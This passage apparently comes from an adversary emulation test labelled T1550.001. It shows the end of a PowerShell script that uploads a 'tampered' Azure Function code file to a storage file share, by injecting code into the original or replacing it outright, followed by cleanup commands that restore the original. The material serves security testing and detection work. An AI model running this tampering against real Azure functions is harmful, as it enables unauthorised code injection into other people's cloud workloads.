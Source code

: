 ```powershell
            $content | Set-Content -Path $tmpFunctionCode       # Write the modified content to the file
            
            # Upload file to file share
            az storage file upload --account-name "#{storage_account_name}" --share-name "#{file_share_name}" -p "#{file_path}" --source $tmpFunctionCode --only-show-errors
            if ($LASTEXITCODE -ne 0) {
                Write-Output "Function code upload failed."
                exit 1
            }
            Write-Output "Uploaded the tampered file"
        } elseif ("#{execution_option}" -eq "replace_file") {
            az storage file upload --account-name "#{storage_account_name}" --share-name "#{file_share_name}" -p "#{file_path}" --source "#{code_to_insert_path}" --only-show-errors
            if ($LASTEXITCODE -ne 0) {
                Write-Output "Function code upload failed."
                exit 1
            }
            Write-Output "Uploaded the tampered file"
        } else {
            Write-Output "Please choose a valid execution_option"
            exit 1
        }
    } else {
        Write-Output "Download original function code failed."
        exit 1
    }
}
```

#### Cleanup Commands:
```powershell
az login    # Log in to Azure CLI

# Upload previous funciton code
$tmpOriginalFileName = [System.IO.Path]::GetFileName("#{file_path}")
$tmpOriginalFunctionCode = Join-Path $env:temp/ ("T1550.001_tmp_original_" + $tmpOriginalFileName)
az storage file upload --account-name "#{storage_account_name}" --share-name "#{file_share_name}" -p "#{file_path}" --source $tmpOriginalFunctionCode --only-show-errors 2>$null

if ($LASTEXITCODE -eq 0) {
    Write-Output "Uploaded original version of function code."

    # Delete tmp original f file if upload succeeded
    if ("#{execution_option}" -eq "insert_code") {
        $tmpFunctionCode = Join-Path $env:temp/ ("T1550.001_tmp_to_inject_" + $tmpOriginalFileName)
        Remove-Item -Path $tmpFunctionCode -Force -erroraction silentlycontinue
        Write-Output "Deleted tmp file: $($tmpFunctionCode)"
    }

    # Delete tmp original file
    Remove-Item -Path $tmpOriginalFunctionCode -Force -erroraction silentlycontinue
    Write-Output "Deleted tmp original file: $($tmpOriginalFunctionCode)"
} else {
    Write-Output "Upload original function code failed."
}
```
